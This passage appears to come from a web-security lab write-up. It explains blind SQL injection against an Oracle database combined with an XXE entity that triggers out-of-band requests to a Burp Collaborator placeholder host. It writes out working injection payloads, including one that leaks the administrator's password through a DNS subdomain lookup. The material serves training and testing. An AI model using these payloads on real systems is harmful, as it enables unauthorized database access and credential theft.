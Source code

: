 We can combine SQL with an XXE payload:
`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`

And this will perform a OAST technique to our Burp Collaborator server. This is because we know it's an Oracle database.
![](imgs/blind_oast_exfiltration_with_xxe.png)

We can see the requests performed:
![](imgs/blind_oast_exfiltration_with_xxe-1.png)

Here is an advanced lab that covers data exfiltration with the following payload:
`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`

Here we just add the query as a subdomain, so the DNS request made to our server leaks the content of the query:
`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
![](imgs/blind_oast_exfiltration_with_xxe-2.png)

We can see the password as a DNS request:
![](imgs/blind_oast_exfiltration_with_xxe-3.png)

![](imgs/blind_oast_exfiltration_with_xxe-4.png)